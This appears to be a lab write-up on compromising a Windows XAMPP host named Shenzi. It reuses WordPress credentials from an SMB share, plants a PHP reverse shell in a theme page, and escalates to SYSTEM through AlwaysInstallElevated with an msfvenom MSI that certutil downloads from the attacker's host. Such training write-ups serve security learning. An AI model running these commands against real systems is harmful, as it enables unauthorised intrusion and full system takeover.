

## Shenzi: Writeup

Nmap scan reveals nine ports open:

```bash
PORT     STATE SERVICE       REASON  VERSION
21/tcp   open  ftp           syn-ack FileZilla ftpd 0.9.41 beta
| ftp-syst:
|_  SYST: UNIX emulated by FileZilla
80/tcp   open  http          syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.171.55/dashboard/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 56F7C04657931F2D0B79371B2D6E9820
135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a44cc99e84b26f9e639f9ed229dee0
| SHA-1: b0238c547a905bfa119c4e8baccaeacf36491ff6
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| http-title: Welcome to XAMPP
|_Requested resource was https://192.168.171.55/dashboard/
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
445/tcp  open  microsoft-ds? syn-ack
3306/tcp open  mysql?        syn-ack
| mysql-info:
|_  MySQL Error: Host '192.168.45.5' is not allowed to connect to this MariaDB server
| fingerprint-strings:
|   DNSVersionBindReqTCP, GetRequest, JavaRMI, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, SMBProgNeg, SSLSessionReq, TerminalServerCookie, X11Probe:
|_    Host '192.168.45.5' is not allowed to connect to this MariaDB server
5040/tcp open  unknown       syn-ack
7680/tcp open  pando-pub?    syn-ack
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.93%I=7%D=3/15%Time=6411EECE%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4B,"G\0\0\x01\xffj\x04Host\x20'192\.168\.45\.5'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(GetRequest,
SF:4B,"G\0\0\x01\xffj\x04Host\x20'192\.168\.45\.5'\x20is\x20not\x20allowed
SF:\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(RPCCheck,4B,"G
SF:\0\0\x01\xffj\x04Host\x20'192\.168\.45\.5'\x20is\x20not\x20allowed\x20t
SF:o\x20connect\x20to\x20this\x20MariaDB\x20server")%r(DNSVersionBindReqTC
SF:P,4B,"G\0\0\x01\xffj\x04Host\x20'192\.168\.45\.5'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SSLSessionRe
SF:q,4B,"G\0\0\x01\xffj\x04Host\x20'192\.168\.45\.5'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TerminalServ
SF:erCookie,4B,"G\0\0\x01\xffj\x04Host\x20'192\.168\.45\.5'\x20is\x20not\x
SF:20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Kerbe
SF:ros,4B,"G\0\0\x01\xffj\x04Host\x20'192\.168\.45\.5'\x20is\x20not\x20all
SF:owed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SMBProgNeg
SF:,4B,"G\0\0\x01\xffj\x04Host\x20'192\.168\.45\.5'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(X11Probe,4B,"
SF:G\0\0\x01\xffj\x04Host\x20'192\.168\.45\.5'\x20is\x20not\x20allowed\x20
SF:to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(LPDString,4B,"G\0\
SF:0\x01\xffj\x04Host\x20'192\.168\.45\.5'\x20is\x20not\x20allowed\x20to\x
SF:20connect\x20to\x20this\x20MariaDB\x20server")%r(LDAPSearchReq,4B,"G\0\
SF:0\x01\xffj\x04Host\x20'192\.168\.45\.5'\x20is\x20not\x20allowed\x20to\x
SF:20connect\x20to\x20this\x20MariaDB\x20server")%r(LDAPBindReq,4B,"G\0\0\
SF:x01\xffj\x04Host\x20'192\.168\.45\.5'\x20is\x20not\x20allowed\x20to\x20
SF:connect\x20to\x20this\x20MariaDB\x20server")%r(NCP,4B,"G\0\0\x01\xffj\x
SF:04Host\x20'192\.168\.45\.5'\x20is\x20not\x20allowed\x20to\x20connect\x2
SF:0to\x20this\x20MariaDB\x20server")%r(NotesRPC,4B,"G\0\0\x01\xffj\x04Hos
SF:t\x20'192\.168\.45\.5'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x
SF:20this\x20MariaDB\x20server")%r(JavaRMI,4B,"G\0\0\x01\xffj\x04Host\x20'
SF:192\.168\.45\.5'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this
SF:\x20MariaDB\x20server");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 29804/tcp): CLEAN (Timeout)
|   Check 2 (port 5763/tcp): CLEAN (Timeout)
|   Check 3 (port 26864/udp): CLEAN (Timeout)
|   Check 4 (port 24512/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: -1s
| smb2-security-mode:
|   311:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2023-03-15T16:16:45
|_  start_date: N/A
```

Start off with ftp. See if anonymous logins allowed. They aren't:

```bash
$ ftp 192.168.171.55
Connected to 192.168.171.55.
220-FileZilla Server version 0.9.41 beta
220-written by Tim Kosse (Tim.Kosse@gmx.de)
220 Please visit http://sourceforge.net/projects/filezilla/
Name (192.168.171.55:lemmy): anonymous
331 Password required for anonymous
Password:
530 Login or password incorrect!
ftp: Login failed
```

Fingerprint the os with `crackmapexec` and see if I can list some shares:

```bash
$ cme smb 192.168.171.55
SMB         192.168.171.55  445    SHENZI           [*] Windows 10.0 Build 19041 x64 (name:SHENZI) (domain:shenzi) (signing:False) (SMBv1:False)

┌──(lemmy㉿d43d41us)-[~/hacking/boxes/pgp/shenzi]
└─$ cme smb 192.168.171.55 --shares
SMB         192.168.171.55  445    SHENZI           [*] Windows 10.0 Build 19041 x64 (name:SHENZI) (domain:shenzi) (signing:False) (SMBv1:False)
SMB         192.168.171.55  445    SHENZI           [-] Error enumerating shares: [Errno 32] Broken pipe
```

So the hostname is `Shenzi` and I can't list the shares without any login credentials. However, if I put any name and any password, I can list the shares:

```bash
┌──(lemmy㉿d43d41us)-[~/hacking/boxes/pgp/shenzi]
└─$ cme smb 192.168.171.55 --shares -u 'lemmy' -p 'lemmy'
SMB         192.168.171.55  445    SHENZI           [*] Windows 10.0 Build 19041 x64 (name:SHENZI) (domain:shenzi) (signing:False) (SMBv1:False)
SMB         192.168.171.55  445    SHENZI           [+] shenzi\lemmy:lemmy
SMB         192.168.171.55  445    SHENZI           [+] Enumerated shares
SMB         192.168.171.55  445    SHENZI           Share           Permissions     Remark
SMB         192.168.171.55  445    SHENZI           -----           -----------     ------
SMB         192.168.171.55  445    SHENZI           IPC$            READ            Remote IPC
SMB         192.168.171.55  445    SHENZI           Shenzi          READ
```

I have read permissions on the share `Shenzi`, which is non-standard. Let's connect and check it out:

```bash
$ smbclient //192.168.171.55/Shenzi -U 'lemmy'
Password for [WORKGROUP\lemmy]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu May 28 11:45:09 2020
  ..                                  D        0  Thu May 28 11:45:09 2020
  passwords.txt                       A      894  Thu May 28 11:45:09 2020
  readme_en.txt                       A     7367  Thu May 28 11:45:09 2020
  sess_klk75u2q4rpgfjs3785h6hpipp      A     3879  Thu May 28 11:45:09 2020
  why.tmp                             A      213  Thu May 28 11:45:09 2020
  xampp-control.ini                   A      178  Thu May 28 11:45:09 2020
```

I download all of these using the `mget *` command, but only `passwords.txt` is interesting:

```bash
$ cat passwords.txt
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ]

3) Mercury (not in the USB & lite version):

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser
   Password: wampp

4) WEBDAV:

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf

   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so

   Please do not forget to refresh the WEBDAV authentification (users and passwords).

5) WordPress:

   User: admin
   Password: FeltHeadwallWight357
```

In particular, the Wordpress credentials have an unexpected password: `FeltHeadwallWight357`

All of this is pointing to the web services running. Port 80 and port 443 both have the same XAMPP default page:

Port 80:


Port 443:



If I fuzz port 80, I find nothing that points to Wordpress:

```bash
$ ffuf -u http://192.168.171.55/FUZZ -w /usr/share/wordlists/dirb/common.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.171.55/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 81ms]
    * FUZZ:

[Status: 403, Size: 1046, Words: 102, Lines: 43, Duration: 93ms]
    * FUZZ: .hta

[Status: 403, Size: 1046, Words: 102, Lines: 43, Duration: 129ms]
    * FUZZ: .htaccess

[Status: 403, Size: 1046, Words: 102, Lines: 43, Duration: 154ms]
    * FUZZ: .htpasswd

[Status: 403, Size: 1046, Words: 102, Lines: 43, Duration: 88ms]
    * FUZZ: aux

[Status: 403, Size: 1060, Words: 103, Lines: 43, Duration: 103ms]
    * FUZZ: cgi-bin/

[Status: 403, Size: 1046, Words: 102, Lines: 43, Duration: 51ms]
    * FUZZ: com2

[Status: 403, Size: 1046, Words: 102, Lines: 43, Duration: 53ms]
    * FUZZ: com1

[Status: 403, Size: 1046, Words: 102, Lines: 43, Duration: 50ms]
    * FUZZ: com3

[Status: 403, Size: 1046, Words: 102, Lines: 43, Duration: 97ms]
    * FUZZ: con

[Status: 301, Size: 344, Words: 22, Lines: 10, Duration: 40ms]
    * FUZZ: dashboard

[Status: 200, Size: 30894, Words: 412, Lines: 6, Duration: 40ms]
    * FUZZ: favicon.ico

[Status: 301, Size: 338, Words: 22, Lines: 10, Duration: 41ms]
    * FUZZ: img

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 42ms]
    * FUZZ: index.php

[Status: 403, Size: 1205, Words: 127, Lines: 46, Duration: 46ms]
    * FUZZ: licenses

[Status: 403, Size: 1046, Words: 102, Lines: 43, Duration: 48ms]
    * FUZZ: lpt1

[Status: 403, Size: 1046, Words: 102, Lines: 43, Duration: 47ms]
    * FUZZ: lpt2

[Status: 403, Size: 1046, Words: 102, Lines: 43, Duration: 54ms]
    * FUZZ: nul

[Status: 403, Size: 1205, Words: 127, Lines: 46, Duration: 45ms]
    * FUZZ: phpmyadmin

[Status: 403, Size: 1046, Words: 102, Lines: 43, Duration: 49ms]
    * FUZZ: prn

[Status: 403, Size: 1205, Words: 127, Lines: 46, Duration: 42ms]
    * FUZZ: server-info

[Status: 403, Size: 1205, Words: 127, Lines: 46, Duration: 52ms]
    * FUZZ: server-status

[Status: 403, Size: 1046, Words: 102, Lines: 43, Duration: 43ms]
    * FUZZ: webalizer
```

This is the same story on port 443:

```bash
$ ffuf -u https://192.168.171.55/FUZZ -w /usr/share/wordlists/dirb/common.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://192.168.171.55/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 61ms]
    * FUZZ:

[Status: 403, Size: 1040, Words: 102, Lines: 43, Duration: 62ms]
    * FUZZ: .hta

[Status: 403, Size: 1040, Words: 102, Lines: 43, Duration: 73ms]
    * FUZZ: .htpasswd

[Status: 403, Size: 1040, Words: 102, Lines: 43, Duration: 74ms]
    * FUZZ: .htaccess

[Status: 403, Size: 1040, Words: 102, Lines: 43, Duration: 134ms]
    * FUZZ: aux

[Status: 403, Size: 1054, Words: 103, Lines: 43, Duration: 136ms]
    * FUZZ: cgi-bin/

[Status: 403, Size: 1040, Words: 102, Lines: 43, Duration: 109ms]
    * FUZZ: com1

[Status: 403, Size: 1040, Words: 102, Lines: 43, Duration: 114ms]
    * FUZZ: com2

[Status: 403, Size: 1040, Words: 102, Lines: 43, Duration: 114ms]
    * FUZZ: com3

[Status: 403, Size: 1040, Words: 102, Lines: 43, Duration: 46ms]
    * FUZZ: con

[Status: 301, Size: 346, Words: 22, Lines: 10, Duration: 43ms]
    * FUZZ: dashboard

[Status: 200, Size: 30894, Words: 412, Lines: 6, Duration: 38ms]
    * FUZZ: favicon.ico

[Status: 301, Size: 340, Words: 22, Lines: 10, Duration: 40ms]
    * FUZZ: img

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 44ms]
    * FUZZ: index.php

[Status: 403, Size: 1199, Words: 127, Lines: 46, Duration: 85ms]
    * FUZZ: licenses

[Status: 403, Size: 1040, Words: 102, Lines: 43, Duration: 53ms]
    * FUZZ: lpt1

[Status: 403, Size: 1040, Words: 102, Lines: 43, Duration: 79ms]
    * FUZZ: lpt2

[Status: 403, Size: 1040, Words: 102, Lines: 43, Duration: 63ms]
    * FUZZ: nul

[Status: 403, Size: 1199, Words: 127, Lines: 46, Duration: 53ms]
    * FUZZ: phpmyadmin

[Status: 403, Size: 1040, Words: 102, Lines: 43, Duration: 49ms]
    * FUZZ: prn

[Status: 403, Size: 1199, Words: 127, Lines: 46, Duration: 60ms]
    * FUZZ: server-status

[Status: 403, Size: 1199, Words: 127, Lines: 46, Duration: 63ms]
    * FUZZ: server-info

[Status: 403, Size: 1040, Words: 102, Lines: 43, Duration: 57ms]
    * FUZZ: webalizer
```

This is the point where lucky guessing comes into play. Remember the SMB share named `Shenzi`? Suppose that is also the web directory path. If you try this, it will resolve into a Wordpress site:


If I enter the creds in `/wp-admin`, I can login:


I'll modify the 404 page in the theme TwentyTwenty with a PHP reverse shell. Since this is a Windows machine, I'll use Ivan Sincek's PHP reverse [shell](https://github.com/ivan-sincek/php-reverse-shell), which usually works without hickups in a Windows environment:


I'll access the page and catch the shell:

```bash
$ curl -s 192.168.171.55/shenzi/wp-content/themes/twentytwenty/404.php

$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.5] from (UNKNOWN) [192.168.171.55] 50746
SOCKET: Shell has connected! PID: 4336
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\shenzi\wp-content\themes\twentytwenty>whoami
shenzi\shenzi
```


Collect `local.txt`:

```cmd
C:\Users\shenzi\Desktop>type local.txt
8e028fc98914eeaca882bbfe51f82f70

C:\Users\shenzi\Desktop>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 192.168.171.55
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.171.254
```

Administrator is the only other user here:

```cmd
C:\>dir /a Users
 Volume in drive C has no label.
 Volume Serial Number is E24B-9BB9

 Directory of C:\Users

12/03/2021  09:12 AM    <DIR>          .
12/03/2021  09:12 AM    <DIR>          ..
12/03/2021  09:30 AM    <DIR>          Administrator
12/07/2019  02:30 AM    <SYMLINKD>     All Users [C:\ProgramData]
12/03/2021  09:19 AM    <DIR>          Default
12/07/2019  02:30 AM    <JUNCTION>     Default User [C:\Users\Default]
12/07/2019  02:12 AM               174 desktop.ini
12/03/2021  09:08 AM    <DIR>          Public
12/03/2021  09:20 AM    <DIR>          shenzi
```

I run [PrivescCheck](https://github.com/itm4n/PrivescCheck), which gives a path to root through `AlwaysInstallElevated`:

```cmd
+-----------------------------------------------------------------------------+
|                         ~~~ PrivescCheck Report ~~~                         |
+----+------+-----------------------------------------------------------------+
| OK | None | APPS > Startup Apps                                             |
| NA | None | APPS > Running Processes -> 14 result(s)                        |
| NA | None | APPS > Non-default Apps -> 9 result(s)                          |
| NA | None | APPS > Startup Apps (info) -> 2 result(s)                       |
| KO | Med. | APPS > Modifiable Apps -> 193 result(s)                         |
| OK | None | CONFIG > Point and Print                                        |
| NA | None | CONFIG > Driver Co-Installers -> 1 result(s)                    |
| OK | None | CONFIG > Hardened UNC Paths                                     |
| KO | High | CONFIG > AlwaysInstallElevated -> 2 result(s)                   |
| OK | None | CONFIG > WSUS Configuration                                     |
| OK | None | CONFIG > PATH Folder Permissions                                |
| NA | None | CONFIG > SCCM Cache Folder (info)                               |
| OK | None | CONFIG > SCCM Cache Folder                                      |
| OK | None | CREDS > WinLogon                                                |
| OK | None | CREDS > Unattend Files                                          |
| OK | None | CREDS > GPP Passwords                                           |
| NA | None | CREDS > PowerShell History                                      |
| NA | None | CREDS > Vault List                                              |
| NA | None | CREDS > Credential Files -> 5 result(s)                         |
| NA | None | CREDS > Vault Creds -> 1 result(s)                              |
| OK | None | CREDS > SAM/SYSTEM/SECURITY Files                               |
| OK | None | CREDS > SAM/SYSTEM/SECURITY in shadow copies                    |
HARDENING > LAPS -> 1 result(s)                                 |
| NA | None | HARDENING > Credential Guard -> 1 result(s)                     |
| NA | None | HARDENING > LSA Protection (RunAsPPL) -> 1 result(s)            |
| NA | None | HARDENING > UEFI & Secure Boot -> 2 result(s)                   |
| NA | None | HARDENING > BitLocker -> 1 result(s)                            |
| NA | None | HARDENING > PowerShell Transcription                            |
| NA | None | HARDENING > UAC Settings -> 3 result(s)                         |
| NA | None | MISC > System Startup History                                   |
| NA | None | MISC > Machine Role -> 1 result(s)                              |
 | None | MISC > Last System Startup -> 1 result(s)                       |
| NA | None | MISC > Endpoint Protection -> 22 result(s)                      |
| NA | None | MISC > Filesystem Drives -> 2 result(s)                         |
| NA | None | MISC > User Home Folders -> 3 result(s)                         |
| NA | None | MISC > User session list -> 2 result(s)                         |
| NA | None | MISC > Local Admin Group -> 1 result(s)                         |
| NA | None | MISC > Defender exclusions                                      |
 MISC > OS Version -> 1 result(s)                                |
| NA | None | MISC > Exploitable leaked handles                               |
| NA | None | MISC > Hijackable DLLs -> 2 result(s)                           |
| NA | None | NETWORK > UDP Endpoints -> 14 result(s)                         |
| NA | None | NETWORK > Saved Wi-Fi Profiles                                  |
| NA | None | NETWORK > Select network from lock screen -> 1 result(s)        |
| NA | None | NETWORK > TCP Endpoints -> 28 result(s)                         |
| NA | None | NETWORK > Interfaces -> 1 result(s)                             |
| OK | None | SCHEDULED TASKS > Binary Permissions                            |
| OK | None | SERVICES > Unquoted Path                                        |
| NA | None | SERVICES > Unquoted Path (info)                                 |
| OK | None | SERVICES > Binary Permissions                                   |
 |OK | None | SERVICES > Registry Permissions
| OK | None | SERVICES > SCM Permissions                                      |
| NA | None | SERVICES > Non-default Services -> 5 result(s)                  |
| OK | None | SERVICES > Service Permissions                                  |
| NA | None | UPDATES > Last Windows Update Date -> 1 result(s)               |
| NA | None | UPDATES > System up to date? (info) -> 4 result(s)              |
| KO | Med. | UPDATES > System up to date? -> 1 result(s)                     |
| NA | None | USER > Groups -> 12 result(s)                                   |
| NA | None | USER > Identity -> 1 result(s)                                  |
| NA | None | USER > Restricted SIDs                                          |
| NA | None | USER > Environment Variables                                    |
| NA | None | USER > Privileges -> 5 result(s)                                |
+----+------+-----------------------------------------------------------------+
```

In particular:

```cmd
+------+------------------------------------------------+------+
| TEST | CONFIG > AlwaysInstallElevated                 | VULN |
+------+------------------------------------------------+------+
| DESC | Check whether the 'AlwaysInstallElevated' registry    |
|      | keys are configured and enabled. If so any user might |
|      | be able to run arbitary MSI files with SYSTEM         |
|      | privileges.                                           |
+------+-------------------------------------------------------+
[*] Found 2 result(s).

Key         : HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
   : AlwaysInstallElevated
Data        : 1
Description : AlwaysInstallElevated is enabled
Compliance  : False

Key         : HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
Value       : AlwaysInstallElevated
Data        : 1
Description : AlwaysInstallElevated is enabled
Compliance  : False
```

With `AlwaysInstallElevated` registry keys enabled, I can run a malicious MSI installer that gives me a reverse shell, which I'll catch as System. More on this attack [here](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/).

Craft the MSI binary with `msfvenom`:

```bash
$ msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=192.168.45.5 LPORT=443 --encoder x64/xor --iterations 9 --format msi --out AlwaysInstallElevated.msi
Found 1 compatible encoders
Attempting to encode payload with 9 iterations of x64/xor
x64/xor succeeded with size 503 (iteration=0)
x64/xor succeeded with size 543 (iteration=1)
x64/xor succeeded with size 583 (iteration=2)
x64/xor succeeded with size 623 (iteration=3)
x64/xor succeeded with size 663 (iteration=4)
x64/xor succeeded with size 703 (iteration=5)
x64/xor succeeded with size 743 (iteration=6)
x64/xor succeeded with size 783 (iteration=7)
x64/xor succeeded with size 823 (iteration=8)
x64/xor chosen with final size 823
Payload size: 823 bytes
Final size of msi file: 159744 bytes
Saved as: AlwaysInstallElevated.msi
```

I'll transfer this over to the target with `certutil.exe`:

```cmd
C:\temp>certutil -urlcache -split -f http://192.168.45.5/AlwaysInstallElevated.msi .\AlwaysInstallElevated.msi
****  Online  ****
  000000  ...
  027000
CertUtil: -URLCache command completed successfully.
```

Execute the attack with `msiexec`:

```cmd
C:\temp>msiexec /quiet /qn /i AlwaysInstallElevated.msi
```

Catch the shell as System:

```bash
$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.5] from (UNKNOWN) [192.168.171.55] 50868
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\WINDOWS\system32>type \Users\Administrator\Desktop\proof.txt
type \Users\Administrator\Desktop\proof.txt
319e4cfb2f421e382db548c3a23909d5
```

